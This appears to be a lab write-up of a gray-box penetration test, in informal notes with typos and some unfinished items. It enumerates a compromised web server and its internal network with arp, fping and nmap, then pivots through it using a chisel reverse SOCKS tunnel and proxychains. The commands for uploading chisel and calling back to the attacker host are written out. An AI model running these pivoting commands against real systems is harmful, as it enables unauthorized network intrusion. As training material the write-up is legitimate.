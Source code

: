 Kindly Note that the test carried out in this lab environment  was a gray box test, meaning that some information was provided, and oin situations where these information were not provided, alternates methods wwould be used
e.g credentials of the compromised webserver

# PART A : Enumeration 



# PART B - Enumerating the Compromised webserver to Pivoting into the internal network 
Tools used in this section includes
   a. ssh for remote access to the compromised server
   b. curl: to access the websiite on the webserver
   c. chisel: 
   d. proxychains: To help 
   d. xfred

## Enumeration
This is the act of getting information from a target, and in this environment, an active recon was done
1. The webserver was accessed using the credentials (compromisd or provided) via ssh from the external network
   ssh ah01crt@192.168.10.247

![image](https://github.com/user-attachments/assets/61aa8f9f-6424-4b18-a29f-2568cd4f5c11)

2. The network interfaces of the compromised webserver was  enumerated and it provided an additional network interface that connects to the internal network
![image](https://github.com/user-attachments/assets/508cc111-95d0-4a37-bf0b-2654a58ba743)

3. The newly found interface was then enumerated:
     a. using the command arp - a, the IP addresss 10.10.10.2, 10.10.10.21 were discovered
   ![image](https://github.com/user-attachments/assets/ba65af0f-7578-4bc4-a9cc-0ea183d5ea1e)
      b. using the command fping  -agq 10.10.10.0/24, only 10.10.10.2 was newly discovered; the tool did not discover 10.10.10.21
   ![image](https://github.com/user-attachments/assets/3eb64036-30d6-4237-8253-a34bc0016d24)
      c. 
4. The hosts were then enumerated individually
     a. 10.10.10.22 host: using nmap -sT 10.10.10.2 -Pn, the result returned a couple of ports (53 -domain, 135 - SMB, 636- ldapssl, and oothers) which giives an indication tat 
   ![image](https://github.com/user-attachments/assets/3277b9f2-50d1-433a-8527-04233a4ce241)

   b. 10.10.10.21 host: using nmap -sT 10.10.10.21 -Pn. This returned port 135 -msrpc, 3389 -ms-wbt-server, this confirms that this is a windows machine and it is running a remote desktop

   ![image](https://github.com/user-attachments/assets/a55df725-3306-4c50-9df1-0a2b8721f1ce)

## Pivoting

Pivoting is the act of moving through different sections of  netwworks. in this environment, pivoting worked by using the attacker's machine on 192.168.10.42 to connecct to internal services running on 10.10.10.21 via the compromised server running on 192.168.10.247 and 10.10.10.17

A tool called chisel  in combination with proxychains were used here.
1. Sending the chisel tool to the compromisedd web server: This was done using the command "scp chisel ah01crt@192.168.10.247:/tmp
![image](https://github.com/user-attachments/assets/af642470-46e9-4e7a-8339-edebeca10a3d)

2. Running Chisel: After chisel hass been sent to the tmp direectory on the compromised web server, the tool was started on both the attaer machine and the compromised server
         a. Attacker machine:chisel server --socks5 --reverse 
![image](https://github.com/user-attachments/assets/4f68d466-73f3-4302-aeb4-b45da1e8daa5)
         b. on the victim machine:  ./chisel client --fingerprint pqh2eK8bDpDPiMPeTx8dAd+N0/lF9cVxo5ZoVwz8yRs= 192.168.10.42:8080 R:socks
![image](https://github.com/user-attachments/assets/8e1eb033-e00b-4636-ba96-2a6f61056be7)

3. Confirming chisel's workings: To confirm that the tool is working and we can indeed connct to the internal network,
         a. connecting to the compromised webserver via SSH using thee internal network of the server: using the command  proxychains ssh ah01crt@10.10.10.17
   This worked and it is a prove that we can connect to the internal network
   ![image](https://github.com/user-attachments/assets/e281081b-f397-4985-85a8-336b885ca95e)
         b. Connecting to the webserver's website via the internal Ip: using the command  proxychains curl 10.10.10.17  
   ![image](https://github.com/user-attachments/assets/90d02adc-8822-4ee4-85ea-2234099a6504)

4. Accessing services on the 10.10.10.21 host: Since this host runs a remote desktop service, the service was tried 


![image](https://github.com/user-attachments/assets/571a35c4-fe87-4075-bbe5-c80ec69c8944)





![image](https://github.com/user-attachments/assets/b455f8c4-8379-4db3-9f56-9f7258aa96f2)

